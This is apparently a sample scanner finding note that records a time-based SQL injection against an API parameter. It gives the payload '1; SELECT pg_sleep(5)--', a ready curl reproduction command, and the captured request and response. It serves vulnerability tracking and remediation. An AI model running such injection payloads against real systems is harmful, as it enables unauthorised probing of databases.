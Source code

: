 ```yaml
---
occurrenceId: occ-e5f6g7h8
findingId: fin-d1a7e8b9
definitionId: def-40018
pluginId: "40018"
name: "GET /api/v1/users?id=1; SELECT pg_sleep(5)--"
url: "https://my-app.com/api/v1/users"
method: "GET"
param: "id"
attack: "1; SELECT pg_sleep(5)--"
evidence: "time-based SQLi: server response delayed ~5s"
risk: "High"
riskcode: "3"
confidence: "Medium"
sourceid: ""
scan:
  label: "Run 2025-08-19"
domain:
  label: "my-app"
analyst:
  status: "open"
---
```


# SQL Injection occurrence: time-based

> [!summary]
> - Finding: [[sample-sqli-finding|SQL Injection - /api/v1/users]]
> - Param: `id`
> - Attack: `1; SELECT pg_sleep(5)--`
> - Evidence: response time ~5s
> - Status: open

## Reproduce
```bash
$start = Get-Date; curl -sS "https://my-app.com/api/v1/users?id=1;%20SELECT%20pg_sleep(5)--" -H "Accept: application/json"; $elapsed=(Get-Date)-$start; Write-Host "Elapsed: $($elapsed.TotalSeconds)s"
```

## Traffic

### Request
```
GET /api/v1/users?id=1;%20SELECT%20pg_sleep(5)-- HTTP/1.1
Host: my-app.com
User-Agent: ZAP
Accept: application/json
```

### Response
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
X-Response-Time: 5100ms

[{"id":1,"name":"admin"}]
```
